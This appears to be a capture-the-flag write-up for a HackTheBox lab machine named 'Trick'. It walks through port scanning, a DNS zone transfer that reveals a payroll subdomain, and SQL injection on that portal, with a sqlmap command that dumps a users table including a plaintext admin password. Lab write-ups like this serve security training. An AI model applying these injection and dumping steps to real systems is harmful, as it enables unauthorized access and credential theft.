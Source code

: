# Nmap 
```
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
---

## DNS Enum
```
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```
---

## SQLi
<a href="http://preprod-payroll.trick.htb" target="_blank">http://preprod-payroll.trick.htb</a><br/>
The preprod portal has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```
tabase: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```
